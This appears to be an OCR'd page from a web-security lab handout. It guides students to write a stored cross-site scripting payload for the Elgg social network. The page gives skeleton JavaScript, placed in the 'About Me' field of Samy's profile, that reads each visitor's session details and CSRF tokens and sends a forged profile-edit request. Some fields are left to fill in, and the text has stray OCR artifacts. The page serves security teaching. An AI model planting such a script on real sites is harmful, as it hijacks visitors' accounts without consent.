    
Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests
directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should
first find out how a legitimate user edits or modifies his/her profile in _Elgg_. More specifically, we need
to figure out how the HTTP POST request is constructed to modify a user’s profile. We will use Firefox’s
_HTTP_ inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can
write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that
aids in completing the task.
```
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content=...; //FILL IN

    var samyGuid=...; //FILL IN

    var sendurl=...; //FILL IN

    if(elgg.session.user.guid!=samyGuid) ¿
    {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
                              "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```
Similar to Task 4, the above code should be placed in the "_About Me_" field of Samy’s profile page,
and the Text mode should be enabled before entering the above JavaScript code.
